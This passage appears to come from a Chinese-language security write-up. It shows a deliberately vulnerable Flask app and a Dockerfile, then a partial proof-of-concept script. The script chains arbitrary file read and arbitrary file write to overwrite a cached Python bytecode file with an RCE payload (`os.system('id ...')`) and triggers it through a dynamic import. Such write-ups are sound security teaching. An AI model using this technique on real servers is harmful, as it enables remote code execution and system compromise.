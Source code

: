 ```
            return response
    except:
        return 'File Unable to read the file'
@app.route('/telemetry', methods=('GET',))
def sendTelemetryData():
    data = request.args.get('data', 'Empty data')
    telemetryModule = MODULES[0]
    dynamicImportModule(telemetryModule['moduleName'], telemetryModule['path'], data)
    return 'Telemetry data has been submitted'
if __name__ == '__main__':
    app.run(debug=True)
```  
  
telemetry.py  
```
def sendTelemetryData(data):
    # for demo only
    print(f'[TELEMETRY] {data}')
```  
  
Dockerfile  
```
FROM python:3.11-alpine
WORKDIR /app
ENV FLASK_APP=app.py
ENV FLASK_RUN_HOST=0.0.0.0
COPY ./src .
RUN pip3 install requests flask
RUN rm -rf /app/uploads && mkdir /app/uploads
EXPOSE 5000
ENTRYPOINT [ "flask", "run" ]
```  
  
要覆盖已编译的字节码文件，我们将：  
1. 向/telemetry发送GET请求以动态导入模块（确保字节码文件确实被编译）  
  
1. 利用任意文件读取漏洞读取字节码文件的头部字段，并提取魔数、修改日期时间戳和源文件大小等信息  
  
1. 通过AFW漏洞覆盖已编译的字节码文件，其中包含我们的RCE payload  
  
1. 通过向/telemetry发送GET请求触发被覆盖的字节码文件（动态导入被覆盖的字节码文件）  
  
以下是执行上述步骤的PoC脚本：  
```
import requests
import struct
import time
import marshal
from io import BytesIO
TELEMETRY_ENDPOINT = '/telemetry'
FILE_READ_ENDPOINT = '/read'
FILE_UPLOAD_ENDPOINT = '/upload'
EXFILTRATED_FLAG_FILENAME = 'output.txt'
MAGIC_TAG = 'cpython-311'
BYTECODE_FILE_PATH = f'/../__pycache__/telemetry.{MAGIC_TAG}.pyc'
FIELD_SIZE = 4 # https://nowave.it/python-bytecode-analysis-1.html
RCE_SOURCE_CODE = f'__import__("os").system("id > /app/uploads/{EXFILTRATED_FLAG_FILENAME}")'
BYTECODE_FILENAME = '/app/telemetry.py' # this can be anything
baseUrl = 'http://localhost:5000'
def modifyBytecode(bytecode):
    # modified from https://github.com/gmodena/pycdump/blob/master/dump.py
    # magic number and modification date timestamp field MUST match to the original one, otherwise Python will recompile it again
    headers = bytecode[0:16]
    magicNumber, bitField, modDate, sourceSize = [headers[i:i + FIELD_SIZE] for i in range(0, len(headers), FIELD_SIZE)]
    modTime = time.asctime(time.localtime(struct.unpack("=L", modDate)[0]))
```